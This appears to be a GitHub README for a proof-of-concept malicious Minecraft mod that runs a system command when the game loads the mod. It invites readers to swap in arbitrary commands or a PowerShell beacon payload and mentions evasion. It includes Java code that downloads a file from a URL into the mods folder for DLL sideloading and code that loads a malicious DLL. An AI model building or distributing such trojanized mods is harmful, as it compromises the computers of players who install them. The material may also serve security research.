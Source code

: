 # A malicious Minecraft mod

This is a Minecraft mod that can be compiled into a .jar file, dropped in the mods/ folder, and loaded into Minecraft.
Once the `onClientSetup` class is called on initialization the mod will execute the command `calc.exe`, popping the calulator app. 
Replace this command to execute arbitrary commands on the system and drop second stage payloads.


### Code
The code responsible for launching commands calls the `Runtime.getRuntime().exec()` function. 
![256880772-ce3c1902-74aa-4715-833b-aecf5354cb83](https://github.com/nickswink/mc-payload-mod/assets/57839593/6fceec6d-020d-497a-92ce-4398b39e43db)


### Execution
As Minecraft initializes the mod the command is executed.
![256880861-e1dfbc4d-068c-42e3-9e55-a6ed2e1635bf](https://github.com/nickswink/mc-payload-mod/assets/57839593/6b20fbbe-e7b4-40af-aa61-2b1027e72c02)


### Beacon poc
Executing a powershell paylaod to get a beacon on the remote host. (Seems to help with evasion as well)
![256903518-1cd888b5-855e-452e-80fa-c7aff1b891c5](https://github.com/nickswink/mc-payload-mod/assets/57839593/ff959f26-76a0-4d2c-a75f-816862d5a906)


### DOwnloads (dll sideloading)
| Maybe if you want to drop a file without running `Runtime.getRuntime().exec()` which is kinda sketchy anyway. 

```java
import java.io.BufferedInputStream;
import java.io.FileOutputStream;
import java.io.IOException;
import java.net.URL;
import java.net.URLConnection;

public void downloadFile(String urlStr, String savePath) throws IOException {
    URL url = new URL(urlStr);
    URLConnection connection = url.openConnection();
    try (BufferedInputStream inputStream = new BufferedInputStream(connection.getInputStream());
         FileOutputStream fileOutputStream = new FileOutputStream(savePath)) {

        byte[] dataBuffer = new byte[1024];
        int bytesRead;
        while ((bytesRead = inputStream.read(dataBuffer, 0, 1024)) != -1) {
            fileOutputStream.write(dataBuffer, 0, bytesRead);
        }
    }
}

try {
    String fileUrl = "https://example.com/your_file.txt";
    String savePath = "path/to/your_minecraft_mod_folder/your_file.txt";
    downloadFile(fileUrl, savePath);
    System.out.println("File downloaded successfully!");
} catch (IOException e) {
    e.printStackTrace();
    System.out.println("File download failed!");
}

```

### Manually load a malicious Dll
| Maybe I will want to manually load (instead of sideloading) a malicious dll i've dropped

```java
import java.nio.file.Files;
import java.nio.file.Paths;

String libraryName = "your_dll_name_without_extension";
try {
    System.loadLibrary(libraryName);
    System.out.println("DLL loaded successfully.");
} catch (UnsatisfiedLinkError e) {
    System.out.println("DLL not found. Loading from file...");
    loadDllFromFile(libraryName);
}

private void loadDllFromFile(String libraryName) {
    String dllPath = "path/to/your_mod_directory/lib/" + libraryName + ".dll";
    if (Files.exists(Paths.get(dllPath))) {
        try {
            System.load(dllPath);
            System.out.println("DLL loaded from file successfully.");
        } catch (UnsatisfiedLinkError e) {
            System.out.println("Failed to load DLL from file: " + e.getMessage());
        }
    } else {
        System.out.println("DLL not found in the specified location: " + dllPath);
    }
}



```

